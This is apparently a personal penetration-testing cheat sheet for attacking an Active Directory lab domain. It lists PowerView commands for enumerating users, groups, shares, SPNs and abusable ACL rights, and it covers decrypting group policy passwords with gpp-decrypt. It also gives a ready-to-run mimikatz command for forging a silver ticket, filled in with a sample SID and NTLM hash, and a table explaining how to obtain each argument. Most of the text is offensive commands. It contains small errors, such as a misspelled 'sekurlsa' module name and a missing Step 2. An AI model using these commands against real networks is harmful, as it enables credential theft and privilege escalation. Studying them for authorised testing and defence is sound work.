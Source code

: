 ```
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn,description
Get-NetGroup "Sales Department" | select member


Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname

```

#### Step 1: users and groups
```
Get-NetUser | select cn,pwdlastset,lastlogon      //
Get-NetGroup | select cn                          // Common name 
Get-NetGroup "GroupName" | select member
```
Note: if a `cpasswd` has been found from a SYSVOL or other source, decode it using `gpp-decrypt`

#### Step 3 other machines
```
Find-LocalAdminAccess                            // Finds computers on the network where the current user has Admin access, from Powerview
Get-NetComputer | Select name                    // From PowerView
.\PsLoggedOn.exe \\COMPUTER_NAME                 // Finds where other users are/have logged on, from SysInternals. Requires the "Remote Registry" service to be enabled on the target, if not, use "Get-NetSession -ComputerName NAME"
.\PsLoggedOn.exe \\
```


### Domain shares
```
Find-DomainShare                                 // From PowerView, enumerated AD domain shares, might take 1-5 minutes
Find-DomainShare -CheckShareAccess               // Only display available shares, might take 1-5 minutes
ls \\dc1.corp.com\sysvol\corp.com\               // Example on connecting via Powershell
```
Note: if there are any readable Policy files, there will be an `AES-256`-encrypted password. To decrypt it, use `gpp-decrypt`


### SPN (Service Principle Name)
SPNs are the unique identifiers of Service Accounts. Using them, we can find out what IPs and ports a service uses.
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname            // From powerview.ps1
setspn.exe -L SAMACCOUNTNAME
setspn.exe -L USERNAME
```
To get the IP, use
```
nslookup.exe web04.corp.com
```


### ACL / ACE
The Access Controll List (ACL) and Access Control Entries (ACE) decide user-specific accesses to AD objects. 
```
GenericAll: Full permissions on object                 (Exploit by resetting password)
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

To list:
```
// Permissions of users in a group (not the group itself) to find targets
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights  
```


### Silver tickets
#### When to use:
- If a service hash was found, but no access to the server with the compromised users

```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```
- To check if the ticket is enabled in memory, use the `klist`
- If the target is HTTP, use `iwr -UseDefaultCredentials http://TARGET`

| Argument   | Description                                         | Example                                    | Command                                                          |
| ---------- | --------------------------------------------------- | ------------------------------------------ | ---------------------------------------------------------------- |
| `/sid`     | The domain SID (the user SID without the last part) | `S-1-5-21-1987370270-658905905-1781884369` | `whoami /user`                                                   |
| `/domain`  | The domain name                                     | `corp.com`                                 | `Get-Domain`                                                     |
| `/ptt`     | Enable passing the ticket                           |                                            |                                                                  |
| `/target`  | The full name of the target machine                 | `web04.corp.com`                           | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/service` | The protocol of the SPN                             | `http`                                     | `Get-NetUser -SPN \| select samaccountname,serviceprincipalname` |
| `/rc4`     | The NTLM hash of the SPN                            | `4d28cf5252d39971419580a51484ca09`         | `sekursla::logonpasswords`                                       |
| `/user`    | The user, can be any.                               | `jeff`                                     | `Get-DomainUser`                                                 |
